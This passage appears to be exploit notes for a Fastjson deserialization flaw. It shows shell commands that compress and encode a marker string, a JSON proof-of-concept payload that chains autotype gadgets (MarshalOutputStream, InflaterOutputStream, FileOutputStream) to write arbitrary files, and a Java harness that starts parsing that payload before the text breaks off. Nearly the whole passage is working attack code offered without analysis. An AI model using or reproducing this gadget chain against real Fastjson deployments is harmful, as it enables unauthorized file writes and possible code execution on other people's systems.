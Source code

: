 **File operate**

```
$ echo -ne "RMB122 is here" | openssl zlib | base64 -w 0
eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==

$ echo -ne "RMB122 is here" | openssl zlib | wc -c
22
```

poc:

```
{
    '@type':"java.lang.AutoCloseable",
    '@type':'sun.rmi.server.MarshalOutputStream',
    'out':
    {
        '@type':'java.util.zip.InflaterOutputStream',
        'out':
        {
           '@type':'java.io.FileOutputStream',
           'file':'dst',
           'append':false
        },
        'infl':
        {
            'input':
            {
                'array':'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',
                'limit':22
            }
        },
        'bufLen':1048576
    },
    'protocolVersion':1
}
```

FileWrite.java:

```
package org.heptagram.fastjson;

import com.alibaba.fastjson.JSON;
import java.io.IOException;

public class FileWrite {
    public static void main(String[] args) throws IOException {
        String json = "{\n" +
                "  '@type': \"java.lang.AutoCloseable\",\n" +
                "  '@type': 'sun.rmi.server.MarshalOutputStream',\n" +
                "  'out': {\n" +
                "    '@type': 'java.util.zip.InflaterOutputStream',\n" +
                "    'out': {\n" +
                "      '@type': 'java.io.FileOutputStream',\n" +
                "      'file': 'e:/filewrite.txt',\n" +
                "      'append': false\n" +
                "    },\n" +
                "    'infl': {\n" +
                "      'input': {\n" +
                "        'array': 'eJwL8nUyNDJSyCxWyEgtSgUAHKUENw==',\n" +
                "        'limit': 22\n" +
                "      }\n" +
                "    },\n" +
                "    'bufLen': 1048576\n" +
                "  },\n" +
```